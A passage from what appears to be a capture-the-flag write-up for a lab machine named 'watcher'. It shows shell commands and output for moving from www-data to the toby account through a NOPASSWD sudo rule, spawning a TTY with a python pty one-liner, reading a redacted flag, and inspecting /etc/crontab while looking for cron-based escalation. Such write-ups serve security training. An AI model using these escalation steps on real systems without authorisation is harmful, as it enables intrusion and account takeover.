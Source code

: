 Access `toby`'s directory to get the flag. However, the current user `www-data` does not have the permission to read it, only `toby` can:

```
$ cd toby
$ ls -l
total 12
-rw------- 1 toby toby   21 Dec  3  2020 flag_4.txt
drwxrwxr-x 2 toby toby 4096 Dec  3  2020 jobs
-rw-r--r-- 1 mat  mat    89 Dec 12  2020 note.txt
```

Therefore, use `sudo -l` to check whether any commands that user `www-data` could execute with another privilege:

```
$ sudo -l
Matching Defaults entries for www-data on watcher:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on watcher:
    (toby) NOPASSWD: ALL
```

`NOPASSWD: ALL` means you can execute every commands with `toby`’s privilege:

```
$ sudo -iu toby
id
uid=1003(toby) gid=1003(toby) groups=1003(toby)
python3 -c "import pty;pty.spawn('/bin/bash')"
toby@watcher:~$ cat flag_4.txt
cat flag_4.txt
FLAG{REDACTED}
```

## Flag 5

Read the note to see what does it say:

```
toby@watcher:~$ cat note.txt
cat note.txt
Hi Toby,

I've got the cron jobs set up now so don't worry about getting that done.

Mat
```

It’s the note from `mat` and it talks about the **cron jobs** → Check the `crontab`:

```
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
```